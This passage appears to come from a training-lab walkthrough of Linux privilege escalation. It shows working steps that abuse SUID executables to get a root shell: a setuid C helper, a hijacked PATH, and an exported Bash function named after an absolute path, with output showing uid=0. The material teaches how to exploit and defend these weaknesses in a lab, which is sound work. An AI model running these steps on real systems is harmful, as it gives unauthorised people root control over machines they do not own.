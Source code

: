 ```bash
service apache2 start
```

```c
user@debian:~$ cat /home/user/tools/suid/service.c
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```

```bash
user@debian:~$ gcc -o service /home/user/tools/suid/service.c
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:~# 
```

# [Task 14] SUID / SGID Executables - Abusing Shell Features (#1)

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

```bash
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```bash
/bin/bash --version
```

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:

```bash
/usr/local/bin/suid-env2
```
Remember to exit out of the root shell before continuing!

## #1 - Read and follow along with the above.

